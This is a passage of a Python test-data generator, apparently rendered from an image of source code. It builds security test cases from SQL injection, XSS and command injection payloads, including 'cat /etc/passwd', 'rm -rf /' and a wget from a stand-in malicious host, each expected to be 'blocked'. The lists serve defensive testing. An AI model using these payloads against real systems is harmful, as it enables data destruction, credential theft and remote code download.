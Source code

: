 ```python
                "session_id": f"session_{random.randint(1, 100)}"
            }
            
            data.append(test_case)
        
        return data
    
    def generate_security_test_data(self, config: TestDataConfig) -> List[Dict[str, Any]]:
        """Generate test data for security testing."""
        data = []
        
        # SQL injection attempts
        sql_injection_payloads = [
            "'; DROP TABLE users; --",
            "' OR '1'='1",
            "' UNION SELECT * FROM users --",
            "'; INSERT INTO users VALUES ('hacker', 'password'); --"
        ]
        
        # XSS attempts
        xss_payloads = [
            "<script>alert('XSS')</script>",
            "javascript:alert('XSS')",
            "<img src=x onerror=alert('XSS')>",
            "<svg onload=alert('XSS')>"
        ]
        
        # Command injection attempts
        command_injection_payloads = [
            "; ls -la",
            "| cat /etc/passwd",
            "&& rm -rf /",
            "; wget http://malicious.com/script.sh"
        ]
        
        all_payloads = sql_injection_payloads + xss_payloads + command_injection_payloads
        
        for i, payload in enumerate(all_payloads):
            test_case = {
                "id": f"security_test_{i:04d}",
                "payload": payload,
                "attack_type": self._classify_attack_type(payload),
                "expected_result": "blocked",
                "severity": "high"
            }
            
            data.append(test_case)
        
        return data
    
    def _generate_test_prompt(self, prompt_type: str) -> str:
        """Generate test prompt based on type."""
        prompts = {
            "short": [
                "Hello, how are you?",
                "What is AI?",
                "Explain Python.",
                "Define machine learning."
            ],
            "medium": [
                "Explain the concept of artificial intelligence and its applications.",
                "Write a Python function to calculate the Fibonacci sequence.",
                "Describe the differences between supervised and unsupervised learning.",
```